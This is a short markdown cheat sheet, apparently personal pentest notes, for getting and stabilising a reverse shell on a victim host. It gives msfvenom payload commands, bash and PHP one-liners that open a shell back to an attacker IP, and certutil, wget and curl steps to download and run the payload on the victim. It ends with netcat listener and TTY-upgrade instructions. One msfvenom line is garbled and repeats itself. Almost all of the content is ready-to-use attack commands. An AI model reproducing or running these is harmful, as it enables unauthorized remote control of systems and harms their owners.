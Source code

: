 
## Generate shell 
### with MSFvenom
https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/
```
# Basic Windows shell
msfvenom -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4445 -f exe > shell.exe
msfvenom -p msfvenom -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4445 -f exe > shell.exe LHOST=<KALI_IP> LPORT=4445 -f exe > shell.exe

# Basic Linux shell
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<KALI_IP> LPORT=4445 -f elf > shell.elf
```
### Simple bash reverse shell
Save it as shell.sh
```
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/4445 0>&1
```
Oneliner for webshells
```
bash -c "bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/4445 0>&1"
```
PHP version
```
<?pHp exec("/bin/bash -c 'bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/4445 0>&1'"); ?>
```

## Transfer the shell to the victim host
Assuming we have a basic webshell
```
# On Kali
python -m http.server 8081

# On victim
  # Windows
  certutil.exe -urlcache -split -f http://<KALI_IP>:8081/shell.exe shell.exe

  # Linux
  wget http://<KALI_IP>:8081/shell.elf
  ## or
  curl --output shell.elf http://<KALI_IP>:8081/shell.elf

  chmod +x shell.elf
  ./shell.elf

```

## Setup a netcat listener on Kali
```
nc -nlvp 4445
```

## Upgrade shell
When shell works, but does not support all features
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
<CTRL+Z>
stty -echo raw
fg
stty rows 41 columns 166
```
OR
```
script /dev/null -c bash
# Ctrl + z
stty -raw echo; fg
# Enter (Return) x2
```
